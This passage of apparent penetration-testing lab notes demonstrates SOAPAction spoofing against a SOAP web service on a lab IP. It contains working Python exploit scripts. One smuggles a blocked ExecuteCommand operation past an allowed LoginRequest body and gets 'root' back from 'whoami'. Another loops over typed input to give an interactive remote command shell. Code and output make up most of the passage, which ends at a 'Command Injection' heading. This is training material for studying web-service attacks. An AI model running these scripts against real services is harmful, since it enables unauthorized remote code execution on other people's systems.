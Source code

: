 ```Python
print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
#### Run the python script
```Shell
./client.py
```
We get an error mentioning This function is only allowed in internal networks. We have no access to the internal networks
#### Build a Python Script for doing a SOAPAction spoofing attack
```Python
#!/usr/bin/python

import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
- We specify LoginRequest in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of `ExecuteCommand` because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (`ExecuteCommand`) in the SOAPAction header
#### Run the Python script
```Shell
./client_soapaction_spoofing.py)
```
Output:
```
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'
```

`<result>root\n</result>` == A successful script
#### Automated script (RCE)
```Python
#!/usr/bin/python

import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
#### Running the automated script
```Shell
./automate.py
```
## Command Injection
